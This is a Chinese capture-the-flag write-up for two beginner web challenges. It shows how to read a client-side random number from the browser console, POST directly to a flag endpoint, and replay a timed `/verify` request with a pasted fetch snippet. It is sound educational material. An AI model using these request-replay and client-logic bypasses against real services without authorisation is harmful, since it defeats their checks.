## Moe 笑传之猜猜爆 ✅

> [!NOTE]
> 该题目的 `flag` 是随机的。

在 F12 开发者工具的源代码中，于 `static` 文件夹下找到 `main.js` 文件。注意到第 1 行

```javascript
let randomNumber = Math.floor(Math.random()*10000) + 1; // 1-10000
```

即知随机数的变量名为 `randomNumber`。打开网页时，该随机数已经生成，故我们直接在控制台中输入 `randomNumber` 以得到随机数的值，再输入回原网页以得到 `flag`。


事实上，`main.js` 也指示了另外一条路（从第 24 行）：

```javascript
    // 猜对后请求flag
    fetch('/flag', {method: 'POST'})
      .then(res => res.json())
      .then(data => {
        document.querySelector('.flagResult').textContent = "FLAG: " + data.flag;
      });
    setGameOver();
```

我们可以直接向 `/flag` 发送 HTTP POST 请求以得到 `flag`。这里星澜音不再赘述。

## 摸金偶遇 FLAG，拼尽全力难战胜 ✅

> [!NOTE]
> 玩这个什么游戏导致的。
>
> 该题目的 `flag` 是随机的。

### 思路 1：使用 `requests` 库

使用诸如 Python 的 `requests` 库，发出 `get_challenge?count=9` 请求后，从响应中解出 `numbers` 和 `token`，然后再将其作为新请求的负载的 `answers` 和 `token`，发送 `verify` 请求并从响应中解出 `flag`。

### 思路 2：借助手速手动发出请求

在 F12 开发者工具的「源代码」选项卡中，浏览 `(索引)` 得到如下 JavaScript 代码（从第 572 行，修改了缩进）：

```javascript
fetch("/verify", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
    },
    body: JSON.stringify({
        answers: realCode,
        token: myToken
    })
})
```

我们考虑，可以在开始挑战后手动发送该 `verify` 请求，并携带正确的 `answers` 和 `token`。我们注意到，一次挑战的耗时为 3s，这足以让我们通过极限的手速手动发出请求并查看其响应。这里分享一种做法。

首先，我们将「破译电脑挑战」界面放置在屏幕的左侧，打开 F12 开发者工具，选择「停靠位置」为「停靠到单独的窗口」。在新窗口中选择「源代码」选项卡，之后「展开快速视图」并在快速视图中选择「控制台」。

紧接着，在 3s 内完成以下操作：

1. 在左侧的网页中点击「开始挑战」；
2. 在右上的「源代码」选项卡中，点击「暂停脚本执行」按钮；
3. 在右下的「控制台」选项卡中，粘贴一段 JavaScript 代码；
4. 回车并等待出现 `pending` 时，再在右上的「源代码」选项卡中，点击「继续脚本执行」；
5. 手动查看控制台中的结果。

该 JavaScript 代码如下：

```javascript
fetch("/verify", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
    },
    body: JSON.stringify({
        answers: typeof realCode !== 'undefined' ? realCode : "未定义答案变量",
        token: typeof myToken !== 'undefined' ? myToken : "未定义令牌变量"
    })
})
.then(response => {
    const contentType = response.headers.get("content-type");
    const isJson = contentType && contentType.includes("application/json");
    
    return response[isJson ? "json" : "text"]()
        .then(data => ({
            status: response.status,
            statusText: response.statusText,
            headers: Object.fromEntries(response.headers.entries()),
            body: data
        }));
})
.then(result => {
    console.groupCollapsed("%c响应结果", "color: #4CAF50; font-weight: bold");
    console.log("%c状态:", "color: #2196F3; font-weight: bold", `${result.status} ${result.statusText}`);
    console.log("%c响应头:", "color: #FF9800; font-weight: bold", result.headers);
    console.log("%c响应体:", "color: #9C27B0; font-weight: bold", result.body);
    console.groupEnd();
})
.catch(error => {
    console.groupCollapsed("%c请求错误", "color: #F44336; font-weight: bold");
    console.error("网络错误:", error);
    console.groupEnd();
});
```



> 是的，我们说：`CTF` 的全称是 `Catch Things Faster`。——unDefFtr
